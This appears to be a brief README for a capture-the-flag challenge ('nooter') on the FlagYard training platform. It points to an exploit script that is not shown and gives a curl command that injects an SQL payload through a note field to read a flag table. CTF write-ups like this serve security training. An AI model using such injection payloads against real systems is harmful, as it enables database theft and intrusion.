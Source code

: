 # FlagYard
Flagyard is an online platform that offers hands-on cybersecurity training, including various types of capture-the-flag

#nooter
https://flagyard.com/labs/training-labs/2/challenges/00c862b7-13cb-4142-8116-3dde550f4daa

Step 1: Run python exploit.py

Step 2: Enter URL and Your session cookie
![2](https://github.com/user-attachments/assets/77f7c400-81c2-47f0-bce1-7187a538ce8e)



#curl -X POST http://URL.com/ -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: session=YOUR_SESSION_COOKIE" --data "note=AppSec' || (select * from flag)) --"

